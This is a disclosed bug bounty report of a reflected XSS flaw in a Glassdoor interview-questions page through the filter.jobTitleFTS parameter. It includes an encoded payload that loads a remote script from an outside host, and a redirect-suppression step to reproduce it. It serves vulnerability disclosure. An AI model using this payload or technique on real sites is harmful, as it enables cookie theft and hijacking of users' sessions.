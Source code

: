 # Reflected XSS at https://www.glassdoor.com/Interview/Accenturme-Interview-Questions-E9931.htm  via  filter.jobTitleFTS  parameter

## Report Details
- **Report ID**: 995936
- **URL**: https://hackerone.com/reports/995936
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-10-01T14:37:42.120Z
- **Disclosed**: 2021-04-16T02:55:44.374Z

## Reporter
- **Username**: n1xk_10
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: glassdoor

## Vulnerability Information
The endpoint https://www.glassdoor.com/Interview/Accenturme-Interview-Questions-E9931.htm is vulnerable to reflected XSS.
Affected Parameter: filter.jobTitleFTS
Browsers tested: Chrome, Firefox

Payload: %3c%3c%3ca%3ea%3escript%20SrC%3d%22%68%74%74%70s%3a%2f%2f%73%6b%69%6e%6e%79%2d%66%65%61%72%2e%73%75%72%67%65%2e%73%68%2f%70%61%79%6c%6f%61%64%2e%6a%73%22%3e%3c%3c%3ca%3ea%3e%2fscript%3e

Decoded: <<<a>a>script SrC="https://skinny-fear.surge.sh/payload.js"><<<a>a>/script>


 Steps To Reproduce:

1. Navigate to https://www.glassdoor.com/Interview/Accenture-Interview-Questions-E4138.htm?filter.jobTitleFTS=Business%20Analyst
2. Add a parameter countryRedirect=True 
3. Because of this parameter the browser does not get redirected to another page when we enter payload.
4. Now enter the payload inside filter.jobTitleFTS parameter
5. See the response, an alert will pop up

## Impact

Using XSS an attacker can steals the victim cookie and can also redirect him to a malicious site controlled by the attacker.

## Attachments
- Screenshot_at_2020-10-01_20-01-08.png
